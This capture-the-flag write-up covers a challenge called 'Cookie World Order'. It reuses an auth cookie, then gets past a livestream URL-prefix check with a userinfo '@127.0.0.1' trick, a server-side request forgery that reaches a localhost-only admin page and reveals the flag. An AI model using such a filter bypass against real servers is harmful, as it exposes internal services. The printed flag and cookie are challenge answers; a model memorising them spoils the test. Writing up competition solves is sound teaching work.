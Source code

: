 # Cookie World Order (Cookie)

## Description

Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very
clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon.
Funny they trust their security to a contractor outside their systems, especially one with such bad habits. Upon further
snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo.
Go forth and attain greater access to reach this creature!

## Solution

Adding the cookie with key `auth` and value `TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz` from the [previous challenge](). Reveals
a new hidden admin link. Following that link reveals the **Camera Controls** menue option. [Accessing
it](https://cwo-xss.web.ctfcompetition.com/admin/controls) says `Requests only accepted from 127.0.0.1`. We have to
visit this site locally.

We are lucky because the livestream feature allows us to do a SSRF. Normally, it includes a livestream:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm
```

Changing the value of `livestream` prints an error message. The URL has to begin with `cwo-xss.web.ctfcompetition.com`.
The specification of a valid `URL` looks like this: 

```
scheme:[//authority]path[?query][#fragment]
authority = [userinfo@]host[:port]
```

Constructing a valid prefix can be done through the `userinfo` part. With this the prefix
`cwo-xss.web.ctfcompetition.com` will be present and the `host` part can be chosen by us:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@google.com
```

Requesting the **Camera Controls** over `127.0.0.1` can now be done like this:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
```

This prints the flag `CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}`.
